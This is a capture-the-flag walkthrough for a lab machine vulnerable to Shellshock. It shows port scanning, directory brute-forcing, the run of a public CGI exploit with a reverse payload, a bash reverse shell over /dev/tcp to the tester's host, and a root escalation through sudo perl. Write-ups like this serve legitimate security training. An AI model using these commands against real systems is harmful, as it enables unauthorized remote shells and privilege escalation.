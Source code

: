 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

![alt text](./img/shoker00.PNG?raw=true)  

## Recon-Enumeration  
sudo masscan -p1-65535 10.10.10.56 -e tun0 --rate=1000  
![alt text](./img/shoker01.PNG?raw=true)  

nmap -A -p 80,2222 10.10.10.56  
![alt text](./img/shoker02.PNG?raw=true)  

dirsearch -u http://10.10.10.56/ -w ~/wordlists/big.txt -t 100  
![alt text](./img/shoker03.PNG?raw=true)  

gobuster dir -u http://10.10.10.56/cgi-bin/ -w ~/wordlists/big.txt -t 100 -e -x html,aspx,txt,db,sh,cfg,conf,xml  
![alt text](./img/shoker04.PNG?raw=true)  

## Exploit  
Using burpsuite to check the “user.sh” file we discover it is a simple script  
![alt text](./img/shoker05.PNG?raw=true)  

Ok, doing a quick research we found a interesting exploitation technique  
![alt text](./img/shoker06.PNG?raw=true)  

Looking further we can found and exploit to explore this vulnerability  
searchsploit apache cgi  
![alt text](./img/shoker07.PNG?raw=true)  

searchsploit -x linux/remote/34900.py  
![alt text](./img/shoker08.PNG?raw=true)  
 
Ok, so to user this script we will run the above command:  
python 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.2 lport=1234 pages=/cgi-bin/user.sh  
![alt text](./img/shoker09.PNG?raw=true)  
  
HABEMUS SHELL \o/

## Privesc  
I didn’t like this shell, so let’s start an NETCAT listener (nc -nvlp 4444) and run the above command:  
/bin/bash -c 'exec /bin/bash -i &>/dev/tcp/10.10.14.2/4444 <&1'  
![alt text](./img/shoker10.PNG?raw=true)  

Much better!

The first flag is on the /home/shelly directory  
![alt text](./img/shoker11.PNG?raw=true)  

cat /etc/passwd  
![alt text](./img/shoker12.PNG?raw=true)  
  
sudo -l  
![alt text](./img/shoker13.PNG?raw=true)  

So we can run perl as sudo, let’s an command to exploit this  
https://gtfobins.github.io/gtfobins/perl/  
![alt text](./img/shoker14.PNG?raw=true)  

Just copy the command and run it  
![alt text](./img/shoker15.PNG?raw=true)  

And grab the flag  
![alt text](./img/shoker16.PNG?raw=true)  
